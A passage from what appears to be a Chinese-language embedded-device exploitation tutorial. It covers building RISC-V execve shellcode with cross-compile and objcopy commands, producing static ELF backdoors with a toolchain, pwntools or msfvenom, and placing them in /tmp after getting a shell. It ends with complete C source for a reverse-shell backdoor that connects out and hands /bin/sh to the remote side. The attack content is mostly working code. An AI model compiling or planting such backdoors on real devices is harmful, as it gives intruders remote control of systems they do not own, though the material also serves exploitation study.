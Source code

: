 ```c
    "execve:\n"
	"li a7, 221\n"
	"ecall\n"
	"ret\n"
);
```

```
$ riscv64-linux-gnu-gcc -e main -nostdlib shellcode.c -static -o shellcode
$ riscv64-linux-gnu-objcopy --dump-section .text=sc.bin shellcode
```

1. `-nostdlib`: 不链接系统标准启动文件和标准库文件，这样就不会有多余的启动代码，扣的时候更方便
2. `-e main`: 本质是ld的参数，指明程序入口，由于没有启动代码，故需要让编译器知道程序入口
3. `-static`: 生成静态链接的文件，虽然不需要任何动态库，但为了方便qemu直接测试

### 静态：ELF

比shellcode量级大的代码，一般来说是独立运行，不依赖动态库

#### 生成方法

如果要产出一个ELF的话，一般来说是有以下3种方法：

1. 自己编译：需要对应架构的完整的交叉编译工具链
2. pwntools：需要对应架构的binutils
3. msfvenom：不需要交叉编译工具，shellcode是现成的

不过这些本质都是静态编译，即不依赖动态库，忽略编译工具和目标环境的动态库差异，所以怎么获得编译工具的差别都不大。

#### 成品用法

这个层面一般来说已经getshell了，但嵌入式一般来说都是只读文件系统，后门存放位置一般在tmp目录下，执行即可。

#### 情景举例

常见的就是编译一个反弹shell的后门：

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>
 
int main (int argc, char **argv)
{
  int scktd;
  struct sockaddr_in client;
 
  client.sin_family = AF_INET;
  client.sin_addr.s_addr = inet_addr("127.0.0.1");
  client.sin_port = htons(8880);

  scktd = socket(AF_INET,SOCK_STREAM,0);
  connect(scktd,(struct sockaddr *)&client,sizeof(client));

  dup2(scktd,0); // STDIN
  dup2(scktd,1); // STDOUT
  dup2(scktd,2); // STDERR

  execl("/bin/sh","sh","-i",NULL,NULL);

  return 0;
}
```
